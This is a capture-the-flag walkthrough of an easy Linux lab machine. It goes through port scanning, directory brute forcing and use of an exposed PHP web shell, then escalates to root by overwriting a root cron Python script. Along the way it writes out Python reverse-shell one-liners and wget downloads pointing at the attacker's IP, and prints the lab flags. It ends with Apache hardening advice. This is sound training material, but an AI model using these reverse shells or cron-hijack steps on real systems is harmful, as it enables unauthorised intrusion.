



| Name | IMAGE |
|---|---|
| Release Date | RELEASE_DATE |
| Retire Date | RETIRE_DATE |
| OS | Linux |
| Base Points | Easy [20] |
| Rated Difficulty | GET_RATED |
| Radar Graph | GET_RADAR |
INTRODUCTION
Weak webserver configuration.
This this box we have access to a PHP developer's blog hosted on a server they use for development. The vulnerability on this box is a weakly configured Apache webserver.
The Apache webserver configuration file has an optional directive which allows directories to be browsed if there is no index.html file present in the directory.
From: https://httpd.apache.org/docs/current/mod/core.html#options
This directive is enabled by default. As part of hardening the webserver this directive should be removed from the webserver configuration. Allowing directories to be browsed can lead to the accidental disclosure of sensitive data.
RECON
The victim machine has the IP: 10.129.19.234
The attack machine has the IP: 10.10.14.35
To disover ports for enumeration we scan all TCP and UDP ports using nmap. Once these scans are complete, we will run nmap again on the discovered TCP ports using version detection scripts.
┌──(downeg㉿tholia)-[~/htb/boxes/lame] └─$ sudo nmap -sS -p- --min-rate 10000 -oN scans/nmap_tcp 10.129.19.234 Starting Nmap Nmap scan report for 10.129.19.234 Host is up (0.049s latency). Not shown: 65506 closed tcp ports (reset), 28 filtered tcp ports (no-response) PORT STATE SERVICE 80/tcp open http Nmap done: 1 IP address (1 host up) scanned in 10.26 seconds ┌──(downeg㉿tholia)-[~/htb/boxes/lame] └─$ sudo nmap -sU -p- --min-rate 10000 -oN scans/nmap_udp 10.129.19.234 Starting Nmap Nmap scan report for 10.129.19.234 Host is up (0.050s latency). All 65535 scanned ports on 10.129.19.234 are in ignored states. Not shown: 65458 open|filtered udp ports (no-response), 77 closed udp ports (port-unreach) Nmap done: 1 IP address (1 host up) scanned in 73.00 seconds ┌──(downeg㉿tholia)-[~/htb/boxes/lame] └─$ sudo nmap -p 80 -sV -sC -oN scans/nmap_tcp_scripts 10.129.19.234 Starting Nmap Nmap scan report for 10.129.19.234 Host is up (0.28s latency). PORT STATE SERVICE VERSION 80/tcp open http Apache httpd 2.4.18 ((Ubuntu)) |_http-server-header: Apache/2.4.18 (Ubuntu) |_http-title: Arrexel's Development Site Service detection performed. Nmap done: 1 IP address (1 host up) scanned in 8.69 seconds ┌──(downeg㉿tholia)-[~/htb/boxes/lame] └─$
OS VERSION DETECTION
Searching launchpad.net we can determine that the underlying OS is Ubuntu Xenial released in April 2016, designated 16.04.
site:launchpad.net Apache httpd 2.4.18
SERVICE ENUMBERATION
HTTP - TCP 80
There is only one port available as an attack vector, the HTTP port 80. Pointing a browser to this IP we find a PHP developer's blog.
Following the links on the home page gives us a link to the source code for a PHPBASH script hosted on github: https://github.com/Arrexel/phpbash. The post also hints that the phpbash script was developed on the webserver.
A directory brute force using gobuster identifies a number of directories which we can check.
┌──(downeg㉿tholia)-[~/htb/boxes/lame] └─$ gobuster dir -w ~/seclist_dir -f --url http://10.129.19.234 | tee scans/gobuster =============================================================== Gobuster v3.6 by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart) =============================================================== [+] Url: http://10.129.19.234 [+] Method: GET [+] Threads: 10 [+] Wordlist: /home/downeg/seclist_dir [+] Negative Status codes: 404 [+] User Agent: gobuster/3.6 [+] Add Slash: true [+] Timeout: 10s =============================================================== Starting gobuster in directory enumeration mode =============================================================== /images/ (Status: 200) [Size: 1566] /js/ (Status: 200) [Size: 3167] /css/ (Status: 200) [Size: 1760] /uploads/ (Status: 200) [Size: 14] /dev/ (Status: 200) [Size: 1150] /php/ (Status: 200) [Size: 941] /fonts/ (Status: 200) [Size: 2097] /icons/ (Status: 403) [Size: 294] /server-status/ (Status: 403) [Size: 302] Progress: 62284 / 62285 (100.00%) =============================================================== Finished =============================================================== ┌──(downeg㉿tholia)-[~/htb/boxes/lame] └─$
Browsing these discovererd directories we see that directory listing is enabled on the webserver.
In one of these directories we find the phpbash.php script.
The phpbash.php script can be executed and allows us to run commands as the www-data user. With a quick check of the system we see that there is a scriptmanager account and any commands can be run with the priviledges of scriptmanager. We will use this script script to send a reverse shell back to our attack machine using:
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.35",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
Now that we have an upgraded TTY we can use wget to download the linPEAS priviledge escalation suggester for Linux. We download this script on the victim machine to the /dev/shm directory.
A copy of linPEAS can be downloaded from here: LINPEAS_LINK
We will elevate our priviledges from the www-data user to the scriptmanager user before we run linPEAS. This is done by starting an instance of /bin/bash as the scriptmanager user.
┌──(downeg㉿tholia)-[~/htb/boxes/lame] └─$ /bin/bash ┌──(downeg㉿tholia)-[~/htb/boxes/lame] └─$ nc -lnvp 4242 listening on [any] 4242 ... connect to [10.10.14.35] from (UNKNOWN) [10.129.19.234] 46884 $ whoami whoami www-data $ python -c 'import pty;pty.spawn("/bin/bash")'; python -c 'import pty;pty.spawn("/bin/bash")'; www-data@bashed:/var/www/html/dev$ ^Z [1]+ Stopped nc -lnvp 4242 ┌──(downeg㉿tholia)-[~/htb/boxes/lame] └─$ stty raw -echo;fg nc -lnvp 4242 www-data@bashed:/var/www/html/dev$ cd /dev/shm www-data@bashed:/dev/shm$ wget http://10.10.14.35:8000/linpeas.sh --2024-01-10 23:33:33-- http://10.10.14.35:8000/linpeas.sh Connecting to 10.10.14.35:8000... connected. HTTP request sent, awaiting response... 200 OK Length: 847920 (828K) [text/x-sh] Saving to: 'linpeas.sh' linpeas.sh 100%[===================>] 828.05K 916KB/s in 0.9s 2024-01-10 23:33:34 (916 KB/s) - 'linpeas.sh' saved [847920/847920] www-data@bashed:/dev/shm$ sudo -u scriptmanager /bin/bash scriptmanager@bashed:/dev/shm$ find / -name user.txt 2>/dev/null /home/arrexel/user.txt scriptmanager@bashed:/dev/shm$ cat /home/arrexel/user.txt 1f82da11fba96f07aa9f26e7cbca60f2 scriptmanager@bashed:/dev/shm$ sh ./linpeas.sh
An interesting find from the LinPEAS output is that there is a file /scripts/test.txt which was modified in the last 5 minutes. This is not a typical file to be regularly updated on a Linux system and deserves further investigation.
╔══════════╣ Modified interesting files in the last 5mins (limit 100) /scripts/test.txt /home/scriptmanager/.gnupg/trustdb.gpg /home/scriptmanager/.gnupg/pubring.gpg /home/scriptmanager/.gnupg/gpg.conf /var/log/auth.log /var/log/syslog logrotate 3.8.7
In a new Terminal tab we start a new reverse shell (to port 6666) so that we can dig deeper into this /scripts/ directory. After elevating our priviledges to scriptmanager again we discover
that the write date of test.txt was within the last minute. There is also a small python script in the directory which opens the test.txt file and writes some output to it. The most interesting part though is that
the owner of the python script is our scriptmanager user, but the owner and group of the txt file is root. There must be some type of scheduled task set up by
root that is running this python script every minute.
As we are the owner of the python script we can write our own reverse shell script to this file. The script will open a reverse shell to our attack box on port 1234. Once the suspected scheduled task runs this as root we should have
a access to the system as root via our new reverse shell.
┌──(downeg㉿tholia)-[~/htb/boxes/lame] └─$ nc -lnvp 6666 listening on [any] 6666 ... connect to [10.10.14.35] from (UNKNOWN) [10.129.19.234] 54164 $ python -c 'import pty;pty.spawn("/bin/bash")'; www-data@bashed:/dev/shm$ whoami www-data www-data@bashed:/dev/shm$ sudo -u scriptmanager /bin/bash scriptmanager@bashed:/dev/shm$ cat /scripts/test.txt testing 123! scriptmanager@bashed:/dev/shm$ cd /scripts/ scriptmanager@bashed:/dev/shm$ ls test.py test.txt scriptmanager@bashed:/dev/shm$ ls -l total 8 -rw-r--r-- 1 scriptmanager scriptmanager 58 Dec 4 2017 test.py -rw-r--r-- 1 root root 12 Jan 10 23:47 test.txt scriptmanager@bashed:/dev/shm$ cat test.py f = open("test.txt", "w") f.write("testing 123!") f.close scriptmanager@bashed:/dev/shm$ date Wed Jan 10 23:48:13 PST 2024 scriptmanager@bashed:/dev/shm$ echo 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.35",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' > test.py scriptmanager@bashed:/dev/shm$ cat test.py import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.35",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh") scriptmanager@bashed:/dev/shm$ ls -l total 8 -rw-r--r-- 1 scriptmanager scriptmanager 191 Jan 10 23:49 test.py -rw-r--r-- 1 root root 12 Jan 10 23:49 test.txt scriptmanager@bashed:/dev/shm$
Sure enough within a minute a new reverse shell is opened on our already listening netcat instance and we have root access to the victim machine.
┌──(downeg㉿tholia)-[~/htb/boxes/lame] └─$ nc -lnvp 1234 listening on [any] 1234 ... connect to [10.10.14.35] from (UNKNOWN) [10.129.19.234] 38938 # whoami root # cat `find / -name root.txt` fec13b24b4b603458e920da9a54896c6 #
CONCLUSION
Now that we have root access we can confirm our suspicions. We see that there is a cron job configured to run every python script in the /scripts/ directory every minute.
These scripts will execute as the root user. All python scripts in this directory get executed so as an attacker we did not even need to overwrite the /scripts/test.py script, we
could have created our own python script in the driectory as the scriptmanager user and it would have executed as root.
root@bashed:/# ls -l /var/spool/cron/crontabs total 4 -rw------- 1 root crontab 260 Dec 4 2017 root root@bashed:/# cat /var/spool/cron/crontabs/root # DO NOT EDIT THIS FILE - edit the master and reinstall. # (/tmp/crontab.igz05b/crontab installed on Mon Dec 4 17:53:17 2017) # (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $) * * * * * cd /scripts; for f in *.py; do python "$f"; done root@bashed:/#
If we check the Apache configuration we can see that the Indexes directive is set for the /var/www/ directory. This is the mis-configuration that allowed
us to view and execute the http://10.129.19.234/dev/phpbash.php script.
<Directory /var/www/>
Options Indexes FollowSymLinks
AllowOverride None
Require all granted
</Directory>
If we remove this directive and restart the webserver process we see that we can no longer view the contents of the directories. This would not prevent us from accessing the files in the directories, but we would need to know the names of the files, or have a very good list for brute forcing to find the php scripts. This would make it harder for an attacker to gain a foothold on the system using the php scripts.
<Directory /var/www/>
Options FollowSymLinks
AllowOverride None
Require all granted
</Directory>